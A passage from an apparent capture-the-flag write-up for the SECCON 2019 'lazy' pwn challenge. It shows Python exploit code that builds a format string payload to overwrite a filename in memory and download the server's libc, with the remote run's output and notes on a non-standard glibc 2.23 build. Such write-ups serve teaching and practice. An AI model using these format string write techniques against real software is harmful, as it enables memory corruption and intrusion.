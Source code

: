So, my goal is to give the program a format string that will modify itself to be "libc.so.6\x00".
Since the `download` function copies `strlen(file_name) - 1` bytes, we will have to write "libc.so.6X\x00", X being any byte != '\x00'.  
I used my *in development* format string library to help me calculating the paddings, but I had to edit the payload manually for it to work properly:

```python
...

# addresses to write on
sequence = "".join([p64(input_addr+i) for i in range(8)])
sequence += p64(input_addr+8)

fs = FormatString()
# first address will be at offset 23 (%23$hhn)
fs.write(23, u64("libc.so."), step=1)

payload = fs.payload()
# this is a dirty hack, but it got the job done
payload += "%" + str(0x3636 - fs.bytes_written_so_far) + "x" + "%31$n"
# pad the input so the the addresses are in a known  
# location at a specific offset
payload += "\x00" * (136 - len(payload)) + sequence

s.sendline("4")
s.sendline(payload)

# download libc
s.recvuntil("bytes")
libc_bin = s.recvall()
with open("libc.so.6", "wb") as f:
    f.write(libc_bin)
    f.close()
```
```
╭─vagrant@ubuntu-bionic ~/share/seccon19/pwn/lazy
╰─$ python exploit_leaks.py remote
[+] Opening connection to lazy.chal.seccon.jp on port 33333: Done
[*] leak = 0x7fff69245d50
[*] input @ 0x7fff69245cf0
[+] Receiving all data: Done (3.75MB)
```

## The Final Exploit
Unfortunately, for some reason I couldn't download the libc without it getting corrupted somehow, so I couldn't use `objdump` to find the function offsets.  
I decided to load it in a binary analysis program and look for known functions.   
I found this string: `GNU C Library (GNU libc) stable release version 2.23, by Roland McGrath et al.`.   
This led me to believe that it was not a standard glibc compiled by Ubuntu like it usually is, which means that the offsets will most likely differ.
